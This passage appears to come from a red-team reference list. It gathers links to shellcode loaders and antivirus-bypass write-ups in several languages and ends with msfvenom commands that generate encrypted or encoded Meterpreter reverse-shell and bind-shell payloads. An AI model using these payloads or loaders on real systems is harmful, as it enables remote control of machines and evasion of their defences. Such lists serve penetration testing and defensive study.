 ### .NET

- <https://sevrosecurity.com/2019/05/25/bypass-windows-defender-with-a-simple-shell-loader/>

### Ruby

- <https://blog.king-sabri.net/red-team/how-to-execute-raw-shellcode-using-ruby-on-windows-and-linux>

## Automatic loader

### C++

- <https://github.com/TheD1rkMtr/D1rkLrd>
- <https://github.com/vic4key/QLoader>
- <https://github.com/xuanxuan0/DripLoader>
- <https://github.com/Hagrid29/PELoader>
- <https://github.com/icyguider/Shhhloader>
- <https://github.com/TheD1rkMtr/Shellcode-Hide>

### C

- <https://github.com/CMEPW/Selha/blob/main/C/aes-loader-stageless.c>
- <https://github.com/cribdragg3r/Alaris>
- <https://github.com/trustedsec/COFFLoader>

### Nim

- <https://github.com/aeverj/NimShellCodeLoader>
- <https://github.com/sh3d0ww01f/nim_shellloader>

### Go
- <https://github.com/CMEPW/myph>
- <https://github.com/EddieIvan01/gld>
- <https://github.com/zha0gongz1/DesertFox>

### Rust

- <https://github.com/b1tg/rs_shellcode>
- <https://github.com/r4ime/shellcode_loader>
- <https://github.com/cr7pt0pl4gu3/Pestilence>

### Crystal

- <https://github.com/js-on/WeaponizeCrystal/blob/main/shellcode_loader/shellcode_loader.cr>

## Generate shellcode

### msfvenom

- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f raw`
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key thisisakey -f dll`
- `msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai '\x00' -i 30 RHOST=10.0.0.68 LPORT=9050 -f c | tr -d '"' | tr -d '\n' | more`
